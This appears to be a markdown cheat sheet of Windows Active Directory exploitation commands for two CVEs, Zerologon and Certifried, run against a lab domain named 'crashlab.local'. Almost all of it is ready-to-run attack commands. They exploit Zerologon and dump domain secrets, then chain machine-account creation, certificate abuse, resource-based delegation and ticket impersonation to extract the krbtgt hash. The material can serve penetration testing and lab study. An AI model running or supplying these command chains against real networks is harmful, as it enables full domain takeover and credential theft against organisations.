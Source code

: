 # Windows

## CVE-2020-1472 : Zero Logon
PoC based on this link : https://github.com/dirkjanm/CVE-2020-1472
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html
```bash
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 setAttribute 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName '["CRASHDC.crashlab.local"]'
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName                  
certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12 OR openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes | python3 bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
cp emacron.ccache /tmp/
export KRB5CCNAME=/tmp/emacron.ccache
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
```
